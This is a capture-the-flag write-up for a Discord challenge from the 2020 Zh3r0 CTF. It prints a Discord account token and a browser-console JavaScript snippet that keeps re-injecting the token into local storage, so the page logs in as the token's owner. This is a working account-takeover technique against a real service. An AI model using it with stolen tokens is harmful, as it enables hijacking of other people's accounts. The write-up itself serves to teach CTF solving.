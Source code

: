This is a writeup for the Discord challenge in the 2020 Zh3r0 CTF.

The description of the challenge gives you some sort of hash that looks very much like a web authentication hash.

`NzIyMzM1MTQ5NDA0MTkyODIw.Xuhmgw.SZfbikLok4FRqbHQY4L3htLcTaU`


The solution to this challenge is based on the way discord handles authentication tokens through the browsers local storage. This article describes the concept well:
https://blog.himbeer.me/2019/09/02/updated-2019-finding-out-your-discord-users-token-on-mobile-too/

Because of this, we can use a piece of javascript in the browser console to skirt the protections that are in place by discord. 

```
function login(token){
    setInterval(() => {
        document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
        location.reload();
    }, 2500);
}

login("NzIyMzM1MTQ5NDA0MTkyODIw.Xuhmgw.SZfbikLok4FRqbHQY4L3htLcTaU");
```

To get to the console, in firefox you can either use ctrl + shift + I or navigate to the options menu and navigate to Web Developer > Web Console.

From there, paste the code above into your browser's javascript console


The protection that is in place by discord is to remove the token property from the local storage object when a page is reloaded. However, with the code that we used, the token property is being constantly reinitialized during the page refresh, so that the browser eventually submits it to the webserver, granting access to the account that the token was generated from.



